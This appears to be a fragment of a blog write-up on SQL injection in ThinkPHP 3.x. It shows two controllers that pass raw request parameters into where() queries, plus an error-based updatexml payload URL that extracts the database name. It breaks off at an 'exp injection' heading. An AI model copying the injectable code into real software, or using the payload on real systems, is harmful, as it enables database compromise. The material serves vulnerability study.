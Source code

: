 ```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "Microsoft Yahei"; color: #333;font-size: 24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"<h1>:)</h1><p>Welcome to <b>ThinkPHP</b>! </p><br/> Version V{$Think.version}</div><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_55e75dfae343f5a1"></thinkad><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script>','utf-8');
        $User = D('Users');
        $map = array('user' =$_GET['user']);
        $user = $User->where($map)->find();
        var_dump($user);
    }
}
```
## bind injection controller configuration

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "Microsoft Yahei"; color: #333;font-size: 24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"<h1>:)</h1><p>Welcome to <b>ThinkPHP</b>! </p><br/> Version V{$Think.version}</div><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_55e75dfae343f5a1"></thinkad><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script>','utf-8');
        $User = M("Users");
        $user['user_id'] = I('id');
        $data['last_name'] = I('last_name');
        $valu = $User->where($user)->save($data);
        var_dump($valu);
    }
}
```
# Vulnerability Exploit
## where injection
Payload: `http://127.0.0.1/cms/?id[where]=1 and 1=updatexml(1,concat(0x7e,(select database()),0x7e),1)#`

![Insert the picture description here](https://img-blog.csdnimg.cn/c0ee9d1456f54adc8ee666329f6821a1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
##
exp injection
